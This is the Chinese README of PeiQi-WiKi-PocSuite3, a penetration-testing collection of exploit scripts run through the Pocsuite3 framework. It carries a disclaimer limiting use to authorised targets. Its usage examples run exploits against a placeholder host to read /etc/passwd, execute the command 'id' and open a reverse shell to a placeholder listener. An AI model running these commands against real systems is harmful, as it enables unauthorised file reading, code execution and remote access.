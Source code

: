 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员～

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

如在使用中发现Bug，可以通过issues形式提交给作者进行修复与更新

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

```
无回显 Dnslog测试
```
![](image/image-6.png)

## 最后
```
别忘了Github下载完给个小星星⭐
```

[![Stargazers over time](https://starchart.cc/PeiQi0/PeiQi-WIKI-PocSuite3.svg)](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

